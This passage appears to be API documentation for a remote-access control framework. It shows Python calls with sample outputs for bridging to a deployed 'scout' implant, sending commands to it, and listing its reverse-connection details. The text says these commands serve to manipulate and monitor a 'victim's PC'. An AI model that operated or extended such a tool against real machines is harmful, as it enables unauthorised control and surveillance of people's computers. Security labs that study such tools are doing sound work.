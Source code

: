 #### `bridge_scout(scout_id)`
This command bridges to a selected scout.
```py
output = p.scout.bridge_scout("0")
print(output) # {'status': 'ok', 'message': 'Successfully bridged', 'data': None}
```

## Direct Commands
These are commands used to send commands to the deploed scout to manipulate and monitor the victim's PC

#### `send(command)`
This command sends text to the scout to be run as commands. Send `"help"` to get a list of commands that can be run
```py
output = p.direct.send("admin")
print(output) # {'status': 'ok', 'message': '', 'data': {'scout_output': '[*]Scout is running with admin privileges : False'}}
```

#### `get_bridged()`
Returns the ID of the currently bridged scout
```py
output = p.direct.get_bridged()
print(output) # {'status': 'ok', 'message': '', 'data': {'scout_info': {'0': {'host': '192.168.1.7', 'port': '50201', 'connection_through': '0.0.0.0:9999', 'name': 'Vulnerable Windows 10 PC', 'connected_at': 'YYYY-MM-DD HH:MM:SS', 'connection_type': 'Reverse'}}}}
```
